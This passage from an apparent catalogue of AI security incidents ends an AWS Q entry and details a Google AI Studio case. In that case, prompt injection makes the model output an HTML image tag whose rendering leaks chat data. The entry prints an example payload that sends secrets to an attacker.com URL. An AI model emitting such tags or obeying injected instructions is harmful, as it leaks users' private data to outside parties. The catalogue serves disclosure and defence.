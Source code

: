 **User Base:** AWS Q Developer users, AWS Q for Business customers

**Financial Cost:** Not disclosed

**Outcome:**
- **August 20, 2025:** AWS patched Q Developer vulnerabilities
- **AWS Q for Business:** Amazon fixed by preventing links from being output entirely
- **Status:** Patched (Q Developer RCE and prompt injection fixed; Q for Business markdown rendering disabled)

**Source:**
- https://www.theregister.com/2025/08/20/amazon_quietly_fixed_q_developer_flaws/
- https://embracethered.com/blog/posts/2024/aws-amazon-q-fixes-markdown-rendering-vulnerability/

---

### 7. Google AI Studio Data Exfiltration (2024)
**System:** Google AI Studio
**Date:** 2024
**CVE Number:** Not assigned

**Attack Vector:**
- Regression/bypass allowed data exfiltration via image rendering during prompt injection
- Direct request for HTML image tag: `<img src="https://attacker.com/leak?data=secrets">`
- Automatic image tag rendering leaks data to external servers

**Technical Exploitation:**
- **HTML Image Tag Injection:** Simplified attack—directly request `<img>` tags in prompt
- **Image Rendering Bypass:** Security controls failed to prevent external image loading
- **Data Encoding:** Secrets appended to image URL parameters

**Data Leaked:**
- Chat context
- API responses
- User inputs

**User Base:** Google AI Studio users

**Financial Cost:** Not disclosed

**Outcome:**
- **Discovery:** Security researcher reported vulnerability
- **Public Disclosure:** Researcher tagged Google on X (Twitter)
- **Fix Implemented:** Within 24 hours—image tags no longer rendered, displayed as text instead
- **Status:** Patched

**Source:**
- https://embracethered.com/blog/posts/2024/google-ai-studio-data-exfiltration-now-fixed/

---

### 8. ChatGPT WebPilot Plugin Data Exfiltration (2023)
**System:** ChatGPT with WebPilot plugin
**Date:** 2023
**CVE Number:** Not assigned
